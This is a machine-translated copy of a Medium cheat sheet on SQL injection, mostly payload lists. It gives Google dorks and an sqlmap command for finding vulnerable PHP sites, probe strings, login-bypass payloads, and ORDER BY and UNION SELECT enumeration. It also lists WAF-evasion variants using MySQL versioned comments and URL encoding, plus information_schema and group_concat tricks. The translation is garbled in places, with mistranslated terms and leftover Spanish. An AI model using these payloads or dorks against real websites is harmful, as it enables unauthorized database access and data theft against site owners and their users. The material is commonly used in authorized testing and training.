

# SQL 注入的一些技巧

> 原文：<https://medium.com/nerd-for-tech/some-tips-for-sql-injections-764e1a254a29?source=collection_archive---------4----------------------->



在这篇文章中，我将留下一些关于 sql 注入的技巧，在这里我将尝试只解释特定的点。

首先，我们将讨论如何找到一个易受攻击的网页感谢谷歌黑客。

## （受人嘲笑的）呆子


记住，呆呆是非常重要的，为了找到易受攻击的网站，我们可以使用下面的呆呆，我澄清这些只是几个例子。

如果你想更深入地了解呆呆这个话题，你可以看看我写的关于它的文章:

[https://y000o . medium . com/Google-hacking-dorking-528041621 FD 4](https://y000o.medium.com/google-hacking-dorking-528041621fd4)

```
inurl:”id=” & intext:”Warning: mysql_fetch_assoc()"
inurl:”id=” & intext:”Warning: mysql_fetch_array()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: is_writable()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: Unknown()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: pg_exec()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: mysql_query()"
inurl:”id=” & intext:”Warning: array_merge()"
inurl:”id=” & intext:”Warning: preg_match()"
inurl:”id=” & intext:”Warning: ilesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: require()
inurl:aboutbook.php?id=
inurl:review.php?id=
inurl:loadpsb.php?id=
inurl:ages.php?id=
inurl:material.php?id=
inurl:clanek.php4?id=
inurl:announce.php?id=
inurl:chappies.php?id=
inurl:read.php?id=
inurl:viewapp.php?id=
inurl:viewphoto.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:review.php?id=
inurl:iniziativa.php?in=
inurl:curriculum.php?id=
inurl:labels.php?id=
inurl:story.php?id=
inurl:look.php?ID=
inurl:newsone.php?id=
inurl:aboutbook.php?id=
inurl:material.php?id=
inurlpinions.php?id=
inurl:announce.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:tekst.php?idt=
inurl:event.php?id=
inurlroduct-item.php?id=
inurl:sql.php?id=
inurl:news_view.php?id=
inurl:select_biblio.php?id=
inurl:humor.php?id=
inurl:aboutbook.php?id=
inurl:fiche_spectacle.php?id=
inurl:view_items.php?id= 
inurl:home.php?cat= 
inurl:item_book.php?CAT= 
inurl:www/index.php?page= 
inurl:schule/termine.php?view= 
inurl:goods_detail.php?data= 
inurl:storemanager/contents/item.php?page_code= 
inurl:view_items.php?id= 
inurl:customer/board.htm?mode= 
inurl:help/com_view.html?code= 
inurl:n_replyboard.php?typeboard= 
inurl:eng_board/view.php?T****= 
inurl:prev_results.php?prodID= 
inurl:bbs/view.php?no= 
inurl:gnu/?doc= 
inurl:zb/view.php?uid= 
inurl:global/product/product.php?gubun= 
inurl:m_view.php?ps_db= 
inurl:productlist.php?tid= 
inurl:product-list.php?id= 
inurl:onlinesales/product.php?product_id= 
inurl:garden_equipment/Fruit-Cage/product.php?pr= 
inurl:product.php?shopprodid= 
inurl:product_info.php?products_id= 
inurl:productlist.php?tid= 
inurl:showsub.php?id= 
inurl:productlist.php?fid= 
inurl:products.php?cat= 
inurl:products.php?cat= 
inurl:product-list.php?id= 
inurl:product.php?sku= 
inurl:store/product.php?productid= 
inurl:products.php?cat= 
inurl:productList.php?cat= 
inurl:product_detail.php?product_id= 
inurl:product.php?pid= 
inurl:view_items.php?id= 
inurl:more_details.php?id= 
inurl:county-facts/diary/vcsgen.php?id= 
inurl:idlechat/message.php?id= 
inurl:podcast/item.php?pid= 
inurl:products.php?act= 
inurl:details.php?prodId= 
inurl:socsci/events/full_details.php?id= 
inurl:ourblog.php?categoryid= 
inurl:mall/more.php?ProdID= 
inurl:archive/get.php?message_id= 
inurl:review/review_form.php?item_id= 
inurl:english/publicproducts.php?groupid= 
inurl:news_and_notices.php?news_id= 
inurl:rounds-detail.php?id=
```

## 直接来自 SQLMAP

```
sqlmap.py -g "DOKR"sqlmap.py -g "inurl:\".php?id=1\""
```

## 发现易受攻击的参数

要发现一个参数是否易受攻击，我们首先必须进行测试，在大多数情况下，只需在参数值的末尾添加一个`'`，这将向我们显示一些 sql 错误，例如:

```
1 = sitio.xx/ejemplo?id=12 = sitio.xx/ejemplo?id=1'
```

podemos testear con los siguientes símbolos y sentences:

```
'
''
`
``
,
"
""
/
//
\
\\
;
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--' or ''-'
" or ""-"
" or true--
' or true--admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```

# 检测易受攻击的列数

```
ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 

 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10#
```

## 联合选择

```
UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7

 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
 UNION(SELECT 1,2,3,4,5,6,7)

 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)

 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7UNION DISTINCTROW SELECT 1
 UNION DISTINCTROW SELECT 1,2
 UNION DISTINCTROW SELECT 1,2,3
 UNION DISTINCTROW SELECT 1,2,3,4
 UNION DISTINCTROW SELECT 1,2,3,4,5
 UNION DISTINCTROW SELECT 1,2,3,4,5,6
```

## 绕过 usando comentarios

```
/*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7

 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7

 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)
```

## 绕过 usando comentarios + url 编码

```
/*!%55nion*/%20/*!%53elect*/1
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7

 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7

 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)
```

## Information_schema.tables 跳过

```
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
```

# 串联

```
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
```

# group_concat

```
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
```